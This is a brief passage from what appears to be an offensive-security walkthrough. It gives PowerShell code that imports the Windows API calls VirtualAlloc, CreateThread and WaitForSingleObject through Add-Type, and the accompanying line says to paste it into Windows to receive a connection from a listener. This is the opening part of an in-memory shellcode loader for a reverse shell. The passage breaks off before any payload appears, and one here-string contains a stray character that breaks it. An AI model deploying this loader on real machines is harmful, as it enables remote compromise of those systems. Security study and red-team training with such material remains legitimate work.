 Now, let's paste this code into windows to receive the connection once we've set up the listener:

```c#
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"6
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   


```